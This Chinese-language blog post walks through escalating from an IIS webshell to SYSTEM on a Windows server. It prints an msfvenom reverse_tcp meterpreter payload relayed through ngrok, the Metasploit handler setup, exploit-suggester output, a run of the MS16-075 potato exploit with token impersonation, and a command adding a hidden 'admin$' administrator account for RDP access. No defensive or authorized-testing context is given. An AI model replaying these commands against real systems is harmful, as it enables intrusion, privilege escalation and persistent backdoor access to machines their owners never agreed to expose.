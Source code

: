 ```yaml
---
layout: post
title: "一次基础提权过程"
subtitle: "一次基础提权过程"
date: 2019-08-12
author: ppbibo
category: security
finished: true
---
```

[TOC]

##### PS：

##### 这里主要记录下提权的过程，所以shell过程就不说了，前阵子经九世大佬传授内网渗透，复习AND总结。



## 0x1 

拿到shell 查看了一个当前的权限 `whoami`

![tiquan1](/static/img/tiquan1.png)



查看进程 `tasklist` 发现无杀毒软件。

![tiquan2](/static/img/tiquan2.png)



## 0x2 MSF+ngrok 反弹获取 meterpreter 

`ngrok tcp 4444`

![tiquan3](/static/img/tiquan3.png)

**msfvenom 制作木马&&上传到webshell中**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER IP> LPORT=<SERVER PORT> -f exe > /Users/ppbibo/Desktop/2.exe
```

**msfconsole 接收会话**

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > run
```

尝试 `getsystem` 失败，执行 `shell` 进入到 dos 命令查看当前打的补丁`sysinfo`

```bash
>systeminfo
                  [01]: KB2894852
                  [02]: KB2894856
                  [03]: KB2896496
                  [04]: KB2919355
                  [05]: KB2919442
                  [06]: KB2934517
                  [07]: KB2934520
                  [08]: KB2938066
                  [09]: KB2938772
                  [10]: KB2949621
                  [11]: KB2954879
                  [12]: KB2955164
                  [13]: KB2959626
                  [14]: KB2965500
                  [15]: KB2966826
                  [16]: KB2966828
                  [17]: KB2967917
                  [18]: KB2968296
                  [19]: KB2971203
                  [20]: KB2972103
                  [21]: KB2972213
                  [22]: KB2973114
                  [23]: KB2973448
                  [24]: KB2975061
    							....... 此处省略一大堆
```

[提权辅助页面](https://bugs.hacking8.com/tiquan/)

进入到提权辅助页面进行比对，然后一个个的试= =



## MSF自动识别系统存在哪些漏洞并提供最合适的exp

```bash
use multi/recon/local_exploit_suggester
// 实战中我们在拿到一个反弹shell后(meterpreter)下一步会进行提权操作，而metaspolit的内置模块Local Exploit Suggester。这个模块可以帮助我们识别系统存在哪些漏洞可以被利用，并且为我们提供最合适的exp，通过这个exp我们可以进一步提权。
```

推荐下面几个exp

```bash
[+] 127.0.0.1 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.

[+] 127.0.0.1 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
```

测试均提示利用成功但没有会话返回，用九世哥哥的一句话就是毛用没有。

然后去之前的提权辅助页面进行 ms16_075 搜索看能不能利用

![tiquan4](/static/img/tiquan4.png)

链接：https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075

利用方式在链接中给出来了 **RT：**

![tiquan5](/static/img/tiquan5.png)

```bash
msf5 exploit(multi/handler) > set ExitOnsession false
ExitOnsession => false
msf5 exploit(multi/handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: IIS APPPOOL\DefaultAppPool
meterpreter > load incognito 
Loading extension incognito...Success.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 3832 created.
Channel 1 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] User token NT AUTHORITY\SYSTEM not found
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
No tokens available

meterpreter > execute -cH -f ./potato.exe
Process 1980 created.
Channel 2 created.
meterpreter > list_tokens -u
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
IIS APPPOOL\DefaultAppPool
NT AUTHORITY\IUSR

Impersonation Tokens Available
========================================
NT AUTHORITY\SYSTEM

meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM"
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

执行的时候`SYSTEM` 的 `Impersonation Tokens Available` 会消失，多执行几遍就可以了，如上：

**拿到SYSTEM权限执行shell 进入到DOS命令下添加影子账户即可**

```bash
net user admin$ Passw@rd1. /add && net localgroup administrators admin$ /add
```

**RDP远程桌面端口查询**

![](/static/img/tiquan6.png)

**远程连接 RT:**

![tiquan7](/static/img/tiquan7.png)



#### RID会话劫持，退出服务器。



## 总结

没啥总结的，做个笔记。

